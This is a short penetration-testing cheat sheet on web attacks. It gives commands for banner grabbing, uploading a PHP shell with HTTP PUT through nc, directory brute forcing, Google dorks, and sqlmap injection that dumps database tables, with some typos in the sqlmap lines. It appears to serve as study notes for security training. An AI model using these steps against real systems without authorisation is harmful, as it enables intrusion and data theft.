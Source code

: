 # Web Attacks

### Banner grabbing

```
nc -v <target> <port>
HEAD / HTTP/1.0
```

### HTTPS services

```
openssl s_client -connect <target>:<port>
HEAD / HTTP/1.0
```

### Fingerpriting with Httprint

```
httprint -P0 -h <target> -s <signature file>
```

### HTTP Verbs

```
GET, POST, HEAD, PUT, DELETE, OPTIONS
```

### Using PUT to upload shell

```
# Get the content length of the shell
wc -m shell.php
<payload content length output>

# Then using nc to upload with the PUT method
nc <target> <port>
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: <length of payload>
```

### Directory and File Enumeration

Enumeration of files and directories can lead to many hidden resources that could contain:

* New and untested features
* Backup files
* Testing information
* Developer's notes

```
# Dirb is a great tool to use for directory/file brute forcing
dirb http://<target>

# Gobuster is another directory/file scanner written in Go
gobuster -u <target> -w <path to wordlist> -o <file to output to>
```

### Google Dorks

| Command     | Meaning                                                                                                      |
| ----------- | ------------------------------------------------------------------------------------------------------------ |
| site:       | You can use this command to include only results on a given hostname.                                        |
| intitle:    | This command filters according to the title of a page.                                                       |
| inurl:      | Similar to intitle, but works on the URL of a resource.                                                      |
| filetype:   | This filters by using the file extension of a resource. For example .pdf or .xls.                            |
| AND, OR, &, | You can use logical operators to combine your expressions. For example: site:example.com OR site:another.com |
| -           | You can use this character to filter out a keyword or a command's result from the query.                     |

### SQL Injection with SQLMap

```
sqlmap -u <target> -p <paramater> [options]

# Example
sqlmap -u 'http://vicitim.site/search.php?id=2' -p id --technique=U

# Dump contents of a specific table in a database
sqlamp -u 'http://victim.site/search.php?=1' -D <database name> -T <table name> --dump
```
